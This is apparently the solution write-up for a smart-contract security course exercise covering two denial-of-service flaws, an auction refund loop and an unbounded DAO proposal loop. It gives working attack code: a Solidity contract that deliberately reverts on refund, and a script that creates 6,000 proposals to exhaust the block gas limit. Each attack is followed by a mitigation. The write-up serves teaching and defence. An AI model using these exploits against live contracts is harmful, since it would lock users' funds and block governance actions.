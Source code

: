 # Smart Contracts Exercise 07: Out of Gas --- Solution

The solution for Exercise 07: Out of Gas can be found in this [GitHub repository](https://github.com/radovluk/Smart-Contract-Exercise/tree/main/07-Out-of-Gas/solution/solution-code).

## Solution to Task 1: NFT Auction Sabotage

This task demonstrates a "DoS with Unexpected Revert" vulnerability in smart contracts. The vulnerability exists in the `NFTAuction` contract's `endAuction` function, which attempts to refund all previous bidders by iterating through the bidders array. 

### The Vulnerability

The vulnerability stems from the following code in the `endAuction` function:

```solidity
    // Process refunds for all bidders
    uint256 biddersLength = bidders.length;
    for (uint i = 0; i < biddersLength; i++) {
    address bidder = bidders[i];
    uint256 amount = pendingReturns[bidder];
    if (amount > 0) {
        // Setting the pending amount to 0 before sending to prevent reentrancy
        pendingReturns[bidder] = 0;

        // Send the refund
        payable(bidder).transfer(amount);
        emit RefundProcessed(bidder, amount);
    }
}
```

The issue is that the function uses `transfer()` to send ETH to each bidder. If any of these transfers fail (for example, if the recipient is a contract without a `receive()` or `fallback()` function that accepts ETH), the entire transaction will revert, preventing the auction from being concluded.

### The Attack Strategy

The solution exploits this vulnerability through a malicious contract that:

1. Places a valid bid to be added to the bidders list
2. Implements a `receive()` function that deliberately reverts when it receives ETH

This ensures that when the auction tries to conclude, it will attempt to refund our malicious contract, which will reject the payment and cause the entire transaction to fail.

```solidity
contract NFTAuctionAttacker {
    // Error for rejection
    error RejectPayment();
    
    // The NFT auction contract to attack
    INFTAuction public nftAuction;
    
    constructor(address _nftAuction) {
        nftAuction = INFTAuction(_nftAuction);
    }
    
    // Function to place a bid on the auction
    function attack() external payable {
        nftAuction.bid{value: msg.value}();
    }
    
    // This function will revert when the auction tries to refund this contract
    // causing the entire endAuction transaction to fail
    receive() external payable {
        revert RejectPayment();
    }
}
```

To execute the attack, we deploy the attacker contract and place a bid through it:

```javascript
// Deploy our attacker contract
const NFTAuctionAttacker = 
  await ethers.getContractFactory("NFTAuctionAttacker", player);
const attackerContract = 
  await NFTAuctionAttacker.deploy(nftAuction.target);

// Place a bid through our attacker contract
// We bid more than the current highest bid to ensure we're included
await attackerContract.connect(player).attack({
    value: ethers.parseEther("2.9") // Higher than the last bid of 2.8 ETH
});
```

The attack successfully locks the auction, since any attempt to call `endAuction()` will revert when trying to refund our malicious contract. As a result:

1. The NFT remains locked in the auction contract
2. All bid funds are stuck in the auction contract
3. No one can conclude the auction
4. The 50 ETH bid from bidder3 becomes irrelevant since the auction can never end

### Mitigations

To prevent this type of attack, the contract should implement the Pull-over-Push payment pattern:

```solidity
// Instead of pushing payments, the endAuction function should only:
// 1. Mark the auction as ended
// 2. Transfer the NFT to the highest bidder
// 3. Transfer funds to the seller

// Bidders should call a separate function to withdraw their refunds:
function withdraw() external returns (bool) {
    uint256 amount = pendingReturns[msg.sender];
    if (amount > 0) {
        pendingReturns[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        if (!success) {
            pendingReturns[msg.sender] = amount; // Restore on failure
            return false;
        }
    }
    return true;
}
```

## Solution to Task 2: Save the DAO Funds From the Cats

This task demonstrates a "DoS with Block Gas Limit" vulnerability. The DAO contract has an unbounded loop in its `getWinningProposals()` function, which is called by `executeProposals()`.

### The Vulnerability

The vulnerability stems from the following code in the `getWinningProposals()` function:

```solidity
function getWinningProposals() public view returns (uint256[] memory) {
    // Create a temporary array to store winning proposal IDs (max size is all proposals)
    uint256[] memory temp = new uint256[](proposals.length);
    uint256 count = 0;
    uint256 proposalsLength = proposals.length;
    if (proposalsLength == 0) revert EmptyProposalsArray();

    // Find all winning proposals in a single loop
    for (uint256 i = 0; i < proposalsLength; i++) {
        Proposal storage proposal = proposals[i];
        // Check if the proposal has passed and is ready for execution
        if (
            !proposal.executed &&
            proposal.voteCount > memberCount / 2 &&
            block.timestamp > proposal.createdAt + VOTING_PERIOD
        ) {
            temp[count] = i;
            count++;
        }
    }
}
```

The issue is that this function iterates through **all** proposals. If there are too many proposals, this function will consume too much gas and eventually exceed the block gas limit, preventing the execution of any proposal.

### The Attack Strategy

The solution exploits this vulnerability by creating thousands of proposals to make the `getWinningProposals()` function too expensive to execute:

```javascript
// Create many proposals to cause a DoS attack
console.log("Creating many proposals to trigger a DoS attack...");

// Generate descriptions programmatically
const generateProposalDescription = (index) =>
    `Anti-Cat Proposal #${index}!`;

// Empty calldata for the proposals
const emptyCalldata = "0x";

// The number of proposals needed to cause a DoS
const NUM_PROPOSALS = 6000;
const BATCH_SIZE = 500;

console.log(`Adding ${NUM_PROPOSALS} proposals in batches of ${BATCH_SIZE}...`);

for (let batchStart = 0; batchStart < NUM_PROPOSALS; batchStart += BATCH_SIZE) {
    for (let i = 0; i < BATCH_SIZE && batchStart + i < NUM_PROPOSALS; i++) {
        const description = generateProposalDescription(batchStart + i);

        // Create a proposal with minimum value (to player address)
        await dao.connect(player).createProposal(
            description,
            player.address,
            1, // Minimal amount
            emptyCalldata
        );
    }

    const currentCount = await dao.getProposalCount();
    console.log(`Progress: ${currentCount} proposals created so far`);
}
```

After adding 6,000 proposals to the DAO, any attempt to call `executeProposals()` will exceed the block gas limit, making it impossible to execute the cat charity proposal. The attack doesn't even need these proposals to pass - simply having a large number of proposals forces the `getWinningProposals()` function to iterate through all of them, requiring too much gas.

### Mitigations

To prevent this type of attack, smart contracts should avoid unbounded loops and implement proper pagination:

```solidity
// Instead of processing all proposals at once, use batch processing:
function executeProposalRange(uint256 startIndex, uint256 endIndex) external onlyMember {
    require(endIndex <= proposals.length, "Invalid range");
    require(endIndex > startIndex, "Invalid range");
    
    // Only iterate through a limited range
    for (uint256 i = startIndex; i < endIndex; i++) {
        Proposal storage proposal = proposals[i];
        
        // Process only if it's a winning proposal
        if (!proposal.executed &&
            proposal.voteCount > memberCount / 2 &&
            block.timestamp > proposal.createdAt + VOTING_PERIOD) {
            
            // Execute the proposal
            // ... (execution logic)
        }
    }
}
```